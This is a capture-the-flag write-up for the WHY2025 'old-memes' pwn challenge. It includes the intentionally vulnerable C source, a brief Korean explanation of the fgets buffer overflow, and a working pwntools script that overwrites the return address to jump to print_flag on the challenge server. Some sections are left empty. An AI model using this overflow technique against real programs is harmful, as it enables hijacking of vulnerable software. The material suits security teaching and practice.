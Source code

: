 # old-memes - WHY2025
## Challenge Info
- Date: 2025
- CTF Name: WHY2025
- Category: pwn
- Difficulty (subjective): easy
- Points:
- Provided Files: old-memes.c
- tools:
## Brief Description
Always want to do a bufferoverflow? Here is your chance! Ideal for first timers, you even get the source code!
## Initial Analysis
### Environment
``` sh
$ gcc -m32 -fno-stack-protector -o old-memes old-memes.c
```
### Code
``` c
/* Old Memes Never Die 
 * compile without protection, because protection is for Tonies!
 * gcc -m32 -fno-stack-protector -o old-memes old-memes.c
 */

#include <stdio.h>
#include <string.h>


int print_flag() {
    FILE *fptr = fopen("/flag", "r");
    if (fptr == NULL){
        return 1;
    }
    
    char flag[39];
    while (fgets(flag, sizeof(flag), fptr) != NULL){
        printf("F* YOU and your flag: %s !!!", flag);
    }
    fclose(fptr);
    return 0;
}

int ask_what() {
    char what[8];
    char check[6] = "what?";

    printf("\n\nWhat is your name?\n> ");
    fgets(what, sizeof(what), stdin);
    what[strcspn(what, "\r\n")] = 0;
    if (strcmp(check, what) != 0)
        return 1;
    return 0;
}

int ask_name() {
    char name[30];
    printf("\n\nWhat is your name?\n> ");
    fgets(name, 0x30, stdin);
    name[strcspn(name, "\r\n")] = 0;
    printf("F* YOU %s!\n", name);
}

int main() {
    setbuf(stdout, 0);
    printf("(do with this information what you want, but the print_flag function can be found here: %p)\n", print_flag);

    if(ask_what())
        return 1;
    ask_name();
    return 0;
}
```
## Vulnerability
### BOF(Buffer Overflow)
``` c
int ask_name() {
    char name[30];
    printf("\n\nWhat is your name?\n> ");
    fgets(name, 0x30, stdin);
    name[strcspn(name, "\r\n")] = 0;
    printf("F* YOU %s!\n", name);
}
```
`name`의 크기는 30인 반면 `fgets`로 읽어오는 크기는 0x30으로 18byte 넘어서 덮어쓸 수 있다.  
## Exploit
### Strategy
### Exploitation Steps
### Stack Frame of main
| Variable Name | Offset from EBP |
| --- | --- |
### payload
``` python
from pwn import *

p = remote('old-memes-never-die.ctf.zone', 4242)

# print_flag
p.recvuntil(b'do with this information what you want, but the print_flag function can be found here: ')
printf_flag = int(p.recvn(10), 16)
log.info(f'printf_flag = {hex(printf_flag)}')

# ask_what
p.sendlineafter(b'> ', b'what?')

# ask_name
payload = b''
payload += b'A' * 0x26 + b'B' * 0x4
payload += p32(printf_flag)
p.sendlineafter(b'> ', payload)
p.recvuntil(b'F* YOU and your flag: ')
flag = p.recvuntil(b' !!!')
log.info(f'flag: P{str(flag)}')

# interactive
p.interactive()
```